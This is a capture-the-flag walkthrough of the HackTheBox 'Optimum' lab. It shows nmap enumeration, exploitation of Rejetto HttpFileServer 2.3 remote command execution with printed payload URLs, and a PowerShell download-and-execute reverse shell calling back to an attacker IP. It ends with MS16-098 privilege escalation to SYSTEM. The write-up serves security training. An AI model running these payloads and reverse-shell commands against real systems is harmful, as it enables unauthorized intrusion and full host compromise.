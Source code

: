 # HackTheBox Optimum

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)

![](images/1.png)

## Information Gathering

### Openning Services

```
┌──(Hades㉿10.10.14.5)-[1.3:22.4]~/scripting
└─$ sudo ./enum/all.sh 10.10.10.8
[sudo] password for kali: 

### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.8 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.8 -p80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-02 23:47 +07
Nmap scan report for 10.10.10.8
Host is up (0.23s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.21 seconds
```

### HttpFileServer httpd 2.3

![](images/2.png)

Search exploits with `searchsploit`

```
┌──(Hades㉿10.10.14.5)-[1.5:20.3]~
└─$ searchsploit HttpFileServer 2.3         
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Ex | windows/webapps/49125.py
------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Foothold

### HttpFileServer RCE

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/optimum)

Using exploit `windows/webapps/49125.py`, I try to execute it to sent ping command `cmd.exe /c ping 10.10.14.5` and monitor icmp using `tcpdump`.

```
┌──(Hades㉿10.10.14.5)-[1.5:20.7]~/walkthrough/hackthebox/optimum
└─$ python3 49125.py 10.10.10.8 80 "cmd.exe /c ping 10.10.14.5"
http://10.10.10.8:80/?search=%00{.+exec|cmd.exe%20/c%20ping%2010.10.14.5.}
```

```
┌──(Hades㉿10.10.14.5)-[1.5:20.5]~
└─$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
00:00:27.674206 IP 10.10.10.8 > 10.10.14.5: ICMP echo request, id 1, seq 1, length 40
00:00:27.674272 IP 10.10.14.5 > 10.10.10.8: ICMP echo reply, id 1, seq 1, length 40
<snip>
```

### PowerShell Reverse Shell

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/optimum)

Using powercat.ps1 to create ps file reverse shell.

```
┌──(Hades㉿10.10.14.5)-[0.1:13.9]~/walkthrough/hackthebox/optimum
└─$ pwsh
PowerShell 7.1.2
<snip>       

PS /<snip> . ./powercat.ps1
PS /<snip> powercat -c 10.10.14.5 -p 443 -e cmd.exe -g > shell.ps1
```

At kali machine, create a http server and a listener.

```
┌──(Hades㉿10.10.14.5)-[0.1:14.7]~/walkthrough/hackthebox/optimum
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [04/Apr/2021 21:15:52] "GET /shell.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [04/Apr/2021 21:15:52] "GET /shell.ps1 HTTP/1.1" 200 -
```

```
┌──(Hades㉿10.10.14.5)-[0.1:14.8]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.8] 49170
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>
```

Last step, execute payload with python3.

```
┌──(Hades㉿10.10.14.5)-[0.1:14.8]~/walkthrough/hackthebox/optimum
└─$ cmd="powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.5/shell.ps1')"

┌──(Hades㉿10.10.14.5)-[0.1:14.8]~/walkthrough/hackthebox/optimum
└─$ python3 49125.py 10.10.10.8 80 "$cmd"
http://10.10.10.8:80/?search=%00{.+exec|powershell.exe%20IEX%20%28New-Object%20System.Net.WebClient%29.DownloadString%28%27http%3A//10.10.14.5/shell.ps1%27%29.}
```

## Privilege Escalation

### RGNOBJ Integer Overflow

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/optimum)

```
C:\Users\kostas\Desktop>systeminfo
systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
<snip>
System Type:               x64-based
<snip>
```

I copy the result of `systeminfo` to file `win-server-2012-6.3.9600.txt` and check it using [windows-exploit-suggester.py](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

```
┌──(Hades㉿10.10.14.5)-[0.1:13.5]~/priescal/Windows-Exploit-Suggester
└─$ python windows-exploit-suggester.py --database 2021-04-03-mssb.xls --systeminfo ~/walkthrough/hackthebox/optimum/win-server-2012-6.3.9600.txt
<snip> 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
[*] 
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
<snip>
[*] done
```

Because it is Windows x64, I using MS16-098 vulnerability.

Download binary file with `wget`.

```
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
```

Download file `41020.exe` to windows Server using power shell and execute it.

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.5/41020.exe','C:\Users\kostas\Desktop\41020.exe')"
```

```
C:\Users\kostas\Desktop>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system

C:\Users\kostas\Desktop>
```